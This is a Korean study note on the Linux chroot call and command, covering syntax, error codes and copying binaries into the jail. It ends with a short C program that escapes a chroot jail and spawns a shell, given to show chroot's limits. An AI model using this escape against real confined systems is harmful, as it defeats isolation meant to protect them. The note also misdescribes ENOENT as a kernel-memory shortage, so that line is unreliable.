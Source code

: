 ```yaml
---
title: 컨테이너 - chroot
date: 2023-07-12
categories: [container, chroot]
tags: [container, chroot, linux]     # TAG names should always be lowercase
---
```


 > [Youtube](https://www.youtube.com/watch?v=mSD88FuST80&t=1774s)
> 해당영상을 바탕으로 정리하였음

# 1. chroot

### 1) Synopsis

```C
#include<unistd.h>

int chroot(const char* path)
```
``` shell
$ chroot {chage root path} {command shell}
```
### 2) Description

- **ch**ange **root** 의 약자로 root directory을 변경해주는 명령
- root directory 위로는 벗어날 수 없기 때문에 user나 process를 해당 file system에 가두는 역할을 한다.
- root directory만을 변경하지 다른 것을 변경하지 않는다.
 
### 3) Return value
- 성공시 0
### 4) ERRORS
- EACCESS: 접근권한 거부(파일 권한문제)
- EFAULT: path가 격리된 환경 밖을 가르킨다.
- EIO: I/O오류가 발생
- ELOOP: symbolic link가 너무 많다.
- ENAMETOOLONG: path가 길다.
- ENOENT: 사용가능한 kernel 메모리가 부족
- ENOTDIR: path의 일부분이 directory가 아니다.
- EPERM: 권한 부족(user 권한문제)


## 2.  주의점
- 해당 file system에 갇히기 때문에 리눅스 명령어부터 shell까지 모두 직접 해당 file system에 넣어 주어야 한다.
- which를 이용하여 해당 명령어의 위치를 찾고, ldd를 이용하여 의존 라이브러리를 찾는다.
- 이후 chroot를 실행한 root directory 아래에 해당 파일들이 있어야 실행이 가능
```shell
#sh의 위치출력
$ which sh
#sh의 의존성파일 확인
$ ldd /bin/sh
```
## 3. Breaking out of chroot jail
- 하지만 이렇게 chroot에 가둬두어도 탈출 할 수 있다.
- 이 소스코드를 넣고 chroot한 root directory에서 실행하면 탈출하는 것을 볼 수 있다.
```C
#include<sys/stat.h>
#include<unistd.h>

int main(void)
{
	mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    chdir("../../../../../");
    chroot(".");
    
    return execl("/bin/sh","-i", NULL);
}
```
### 한계

- 가둔 root directory에서의 탈옥이 가능하다.
----
> 아래는 file system만을 격리시키는 것이기 때문에 발생

- root권한을 막을 방법이 없다.

- 자원을 차지하는 것을 조절 할 수 없다.





